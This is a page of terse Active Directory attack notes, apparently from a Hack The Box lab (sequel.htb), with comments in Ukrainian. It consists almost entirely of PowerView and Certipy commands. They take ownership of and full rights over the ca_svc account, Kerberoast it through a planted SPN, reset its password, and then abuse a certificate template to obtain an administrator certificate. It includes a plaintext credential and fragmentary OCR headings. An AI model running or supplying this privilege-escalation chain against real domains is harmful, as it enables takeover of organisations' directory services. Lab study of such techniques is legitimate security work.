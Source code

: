 ## GET HTML HASH 
**get all rights** у ryan є права writeowner над ca_svc
$SecPassword = ConvertTo-SecureString 'WqSZAF6CysDQbGb3' -AsPlainText -Force 
$Cred = New-Object System.Management.Automation.PSCredential('SEQUEL\ryan', $SecPassword)
Set-DomainObjectOwner -Credential $Cred -Identity 'CA_SVC' -OwnerIdentity 'SEQUEL\ryan'
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "CA_SVC" -PrincipalIdentity "ryan" -Rights All

Перегладаємо сід нашого атакуючого користувача
Get-DomainUser | Where-Object { $_.Name -like "*ryan*" } | Select-Object Name, Objectsid
Переглядаємо права нашої цілі
Get-DomainObjectAcl -Identity 'ca_svc' | Where-Object { $_.ActiveDirectoryRights -eq 'GenericAll' }

kerberosting with powerview
створюємо spn
Set-DomainObject -Identity 'ca_svc' -Set @{serviceprincipalname='mydomain/Testing'}
перевіряємо чи створився spn
Get-DomainUser 'ca_svc' | Select-Object serviceprincipalname
отримуємо квиток
$User = Get-DomainUser 'ca_svc'  
$User | Get-DomainSPNTicket -Credential $Cred

## **Windows PowerShell PowerView — Reset User Password**

$NewPassword = ConvertTo-SecureString 'Password9999' -AsPlainText -Force  
Set-DomainUserPassword -Identity 'ca_svc' -AccountPassword $NewPassword
**verification:**
runas /user:sequel.htb\ca_svc cmd.exe

## Using Certify
./Certify.exe find /domain:sequel.htb

certipy template -u ca_svc@sequel.htb -p Password9999  -template DunderMifflinAuthentication -save-old

certipy req -username ca_svc@sequel.htb -password Password9999 -ca sequel-DC01-CA -target sequel.htb -template DunderMifflinAuthentication -upn administrator@sequel.htb -dns 10.10.11.51

certipy auth -pfx administrator_10.pfx -domain sequel.htb
далі у відкритому вікні ставимо 0